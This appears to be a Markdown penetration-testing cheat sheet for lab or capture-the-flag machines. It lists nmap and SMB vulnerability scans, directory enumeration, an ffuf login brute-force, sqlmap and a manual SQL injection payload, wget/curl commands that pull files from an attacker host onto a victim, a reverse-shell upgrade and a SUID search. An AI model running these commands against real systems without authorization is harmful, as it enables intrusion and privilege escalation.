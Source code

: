 
- [Port Scanning](#psc)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Login BruteForce](#log)
- [Sql Injection](#si)
- [File Transfer](#ft)
- [Upgrade Shell](#us)
- [File searching](#fts)
- [Directory Traversal](#dt)

## Port Scanning <a name='psc'></a>

### nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `-sS` stealth scan.
- `-p-` scans all ports. 
-  `-Pn-` Skip recognition phase.
- `-p <port>` scans only the specified port number. 
-  `--open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap  -sS -sC -sV -p 21 10.129.42.253
```
### nmap scripts
**nmap** has the option of checking if there are some known vulnerabilities for the services versions that are being used at the machine. We just need to specify the port and the target ip.
```bash
nmap -p <port> --script vuln <target_ip>
```


## FTP Port <a name='ftp'></a>

### FTP

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

## Samba/SMB Port <a name='smb'></a>

### SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

### nmap scripts
Also, if after our report we observe that the machine has an SMB service we can use some useful nmap scripts to know if the target machine has a vulnerable version of SMB.
```bash
nmap -p445 --script smb-vuln-ms17-010 <target_ip>
```
After executing the nmap command if the smb service has a known vulnerability the name of the CVE will be printed.
## Directory Enumeration <a name='dir'></a>

### Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#wordlist example: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#machine example: 10.10.192.23 or http://10.10.192.23:80
#-q to don't print the errors
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out -t 200
````

- To find subdomains:
```bash
#wordlist example: /usr/share/dnsrecon/subdomains-top1mil-20000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

### wfuzz
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website. Also, it can be useful for enumerate files with an specific extension.
- To find subdirectories:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ
```

- To find common files:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ.php
```
## Login Bruteforce <a name="log"></a>

##### ffuf

```bash
# wordlist = rockyou.txt
ffuf -u http://<machine-ip>/login-page.php -X POST -d '{"user":"FUZZ", "pass":"FUZZ"}' -w wordlist
```

## SQLInjection <a name="si"></a>
For more information consult [[SQL]].

- [SqlMap](https://sqlmap.org/)

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch

# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

## File Transfer <a name="ft"></a>

```bash 
# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>
```


## Upgrade Shell <a name='us'></a>

When we do a reverse shell, sometimes, we will need to upgrade our shell.

- Specifically, what it does is establish a new interactive terminal with advanced features, such as full control of function keys, command history, and the ability to use commands like Ctrl+C and Ctrl+Z. This can be useful in situations where greater interactivity is needed in a limited shell session.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo; fg  
reset xterm
export TERM=xterm
```

## File searching <a name='fs'></a>

### find

Parameters:
- `-name <pattern>`: Matches files or directories with a specific name pattern.
- `-type <type>`: Matches files or directories of a specific type (e.g., `f` for regular files, `d` for directories, `l` for symbolic links).
- `-size <size>`: Matches files based on their size. For example, `+10M` matches files larger than 10 megabytes.
- `-mtime <time>`: Matches files based on their modification time. For example, `-mtime -7` matches files modified within the last 7 days.
```bash
# Use 2>/dev/null if you don't want to see errors output
find [path] [expression] 2>/dev/null
```

Also,  *find* can be useful to find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
```bash
# Use 2>/dev/null if you don't want to see errors output
find / -perm -u=s -type f 2>/dev/null
```


